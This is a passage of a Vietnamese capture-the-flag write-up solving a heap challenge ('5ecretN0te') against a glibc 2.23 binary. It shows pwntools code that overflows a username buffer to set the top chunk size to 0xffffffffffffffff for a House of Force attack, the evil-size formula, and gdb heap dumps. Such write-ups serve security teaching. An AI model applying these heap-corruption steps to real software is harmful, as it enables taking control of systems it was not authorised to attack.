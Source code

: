 Và ta thêm đoạn code này để tính saved rip của main:

```python
saved_rip = stack - 0xf0
log.info("Saved rip of main: " + hex(stack))
```

Nice! Tiếp tục bước cuối nào!

### Stage 4: House of Force

Ở bước cuối, ta cũng thực hiện tương tự như bên trên để overwrite size của topchunk thành `0xffffffffffffffff` để ta có thể thực hiện `House of Force`. Ta nhớ rằng trong `edit`, ta có thể malloc với số size ta muốn. Vậy trước tiên ta cần tính evil_size cần malloc để cho new topchunk nằm ở ngay trước saved rip của main. Công thức:

```python
<evil_size> = <desired address> - 0x20 - <current top with metadata>
```

Vậy bây giờ ta cần thay đổi size của topchunk thành `0xffffffffffffffff`:

```python
p.sendlineafter(b'>> ', b'1')
p.sendlineafter(b'username: ', b'A'*0x68 + flat(0xffffffffffffffff))
```

Kế đến, ta sẽ đi tìm offset từ heap base tới topchunk (tính luôn metadata của topchunk nha) sau khi ta đã thay đổi size của topchunk thành `0xffffffffffffffff`:

```gdb
gef➤  heap chunks
...
Chunk(addr=0x2265200, size=0x70, flags=PREV_INUSE)
    [0x0000000002265200     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x2265270, size=0xfffffffffffffff8, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)
    [0x0000000002265270     0a 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x2265270, size=0xfffffffffffffff8, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)  ←  top chunk

gef➤  vmmap
...
0x00000000404000 0x00000000405000 0x00000000004000 rw- /home/nguyenhuutri/CTF/KCSC/5ecretN0te/secretnote_patched
0x00000002264000 0x00000002286000 0x00000000000000 rw- [heap]
0x007fe27c3b5000 0x007fe27c575000 0x00000000000000 r-x /home/nguyenhuutri/CTF/KCSC/5ecretN0te/libc6_2.23-0ubuntu11.3_amd64.so
...

gef➤  p/x (<Address of content of topchunk> - 0x10) - 0x00000002264000
gef➤  p/x (0x0000000002265270 - 0x10) - 0x00000002264000
$1 = 0x1260

gef➤  x/10xg 0x0000000002265270 - 0x10
0x2265260:	0x4141414141414141	0xffffffffffffffff
0x2265270:	0x000000000000000a	0x0000000000000000
0x2265280:	0x0000000000000000	0x0000000000000000
0x2265290:	0x0000000000000000	0x0000000000000000
0x22652a0:	0x0000000000000000	0x0000000000000000
```
